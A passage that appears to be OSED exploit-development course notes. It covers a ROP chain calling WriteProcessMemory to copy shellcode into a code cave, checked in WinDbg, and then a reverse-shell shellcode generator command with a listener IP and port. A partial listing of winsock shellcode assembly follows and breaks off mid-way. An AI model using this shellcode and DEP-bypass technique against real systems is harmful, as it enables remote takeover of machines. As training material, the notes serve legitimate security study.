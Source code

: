 A final check before we attempt to execute WPM is to check if our `lpBuffer` is correctly sized still given the changes in our ROP exploit.  We check that our WPM is invoked and that the parameters are setup correctly. We set a breakpoint and once WPM is started we check ESP.

```python
0:004> p
KERNEL32!WriteProcessMemoryStub:
XXXXXXXX 8bff            mov     edi,edi
0:004> dds esp 
```

Next we check if the shellcode is copied, so we dump the contents of our codecave before and after execution.

```python
u XXXXXX
```

Our parameters seem to have been set correctly and we continue execution to confirm that our shellcode is copied. Keep in mind that our shellcode is currently represented by the `0xcc` instructions. The following checks are per-
formed:

- The is not mangled before WPM executes.
- The codecave is large enough and empty before WPM execution.
- The codecave is filled with our payload after WPM execution.
- The codecave contains our full shellcode with nothing mangled.

If we experience issues with the shellcode being mangled, this is usually due to the space between WPM (VA) and our shellcode. 

- Increase the gap between WPM and our shellcode so that the WPM execution doesn’t mangle our shellcode
- Attempt to identify if our shellcode is potentially stored in another place in memory that is not mangled

### 10. Shellcode Execution with WPM

- Shellcode Generate
    
    [](https://github.com/epi052/osed-scripts/blob/main/shellcoder.py)
    
    ```bash
    python3.8 epi052shellcoder.py -l 192.168.10.202 -p 8080
    ```
    
    We use standard custom reverse shell using winsock as explained in the OSED coursework. ([https://samsclass.info/127/proj/ED340.htm](https://samsclass.info/127/proj/ED340.htm))
    
    ```nasm
    "start:                               ",
    "       mov ebp, esp                    ;",
    "       add esp, 0xfffff9f0             ;",
    "   find_kernel32:                       ",
    "       xor ecx,ecx                     ;",
    "       mov esi,fs:[ecx+30h]            ;",
    "       mov esi,[esi+0Ch]               ;",
    "       mov esi,[esi+1Ch]               ;",
    "   next_module:                         ",
    "       mov ebx, [esi+8h]               ;",
    "       mov edi, [esi+20h]              ;",
    "       mov esi, [esi]                  ;",
    "       cmp [edi+12*2], cx              ;",
    "       jne next_module                 ;",
    "   find_function_shorten:               ",
    "       jmp find_function_shorten_bnc   ;",
    "   find_function_ret:                   ",
    "       pop esi                         ;",
    "       mov [ebp+0x04], esi             ;",